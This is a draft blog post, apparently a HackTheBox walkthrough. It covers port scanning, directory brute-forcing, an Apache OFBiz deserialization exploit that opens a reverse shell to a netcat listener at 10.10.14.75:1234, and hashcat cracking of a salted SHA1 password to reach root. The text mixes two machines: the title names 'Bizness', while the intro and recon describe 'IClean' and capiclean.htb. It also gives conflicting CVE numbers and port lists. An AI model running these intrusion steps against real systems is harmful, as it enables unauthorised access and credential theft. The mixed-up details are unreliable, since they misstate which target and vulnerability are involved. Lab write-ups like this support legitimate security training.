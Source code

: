 +++ 
draft = true
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = "testestestestest"
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash cracking", "Hashcat", "CVE-2023-51457", "Dirsearch"]
categories = []
externalLink = ""
series = []
+++


![image](15.png#center)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The IClean HTB machine is an medium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.12 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](1.png)

It looks like ports 20 and 80  are open. Classic open ports for SSH and HTTP. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.12 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](2.png)

Trying to access the page, it does not connect since we haven't added the website to our /etc/hosts file, and it doesnt know where to redirect. We simply have to edit the hosts file and add the IP and URL at the end.

Lets also run WhatWeb to see more information about the web page:

```sh
whatweb http://capiclean.htb/
```

![image](4.png)

We now know that uses python 3.10.12 and Werkzeug 2.3.7. Could't find any relevant exploits with this information.

## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u http://capiclean.htb/ --exclude-status 403,404
```

![image](3.png)

It doesn't reveal anything interesting. Lets try WFUZZ and use a bigger dictionary.

We have to run

```sh
sudo wfuzz -c -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hl 348 http://capiclean.htb/FUZZ
```

It reveals an interesting subdirectory: "quote"

![image](5.png)






## Initial access


![image](6.png)



![image](7.png#center)

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```

![image](8.png)

We get the reverse shell.

![image](3.png)

The user flag can be obteined in the /home/ofbiz directory.

![image](4.png)


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:

![image](9.png)
![image](10.png)

By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```

![image](11.png)

It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):

![image](12.png)

Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


![image](13.png)

We got the password!! Now we just have to run su and enter the password to get a root terminal.

![image](14.png)

Lastly, we can grab the root flag and the machine is done!!

![image](15.png#center)

